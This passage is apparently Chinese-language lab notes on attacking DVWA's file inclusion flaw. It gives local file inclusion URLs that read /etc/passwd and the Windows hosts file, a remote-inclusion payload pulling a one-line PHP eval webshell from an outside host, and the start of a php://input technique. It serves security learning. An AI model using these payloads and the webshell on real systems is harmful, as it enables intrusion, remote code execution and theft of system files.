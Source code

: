 只判斷了有沒有 file 就 inlcude 了
```php=
if( isset( $file ) )
	include( $file );
```


所以這種利用很簡單。
<br/><br/>

### 包含本地文件
* linux:
猜出/etc/passwd這個文件，至於../ 有幾層 你可以用burpsuite跑
```
http://localhost/vulnerabilities/fi/?page=../../../etc/passwd
```



* windows
直接C:\Windows\System32\drivers\etc\hosts
```
http://localhost/vulnerabilities/fi/?page=C:\Windows\System32\drivers\etc\hosts
```


### 遠程文件包含
這種就可怕了，可以直接寫一個一句話木馬。

* 小提醒:
我這邊換網域www.dvwa.com，為了測試。



* hacker site: 
http://www.k.com/hack.txt
```=
1111111
<?php @eval($_POST[x]); ?>

```

* payload url 
```
http://www.dvwa.com/vulnerabilities/fi/?page=http://www.k.com/hack.php
```


拿出中國蟻劍連一下，可以成功。

* !這裡我換 .php就不成功，不知道是不是不解析 php檔 

<br/><br/>

### 還可以用php偽協議:

* php://input



* 打開BP，改url
```
http://www.dvwa.com/vulnerabilities/fi/?page=php://input
```
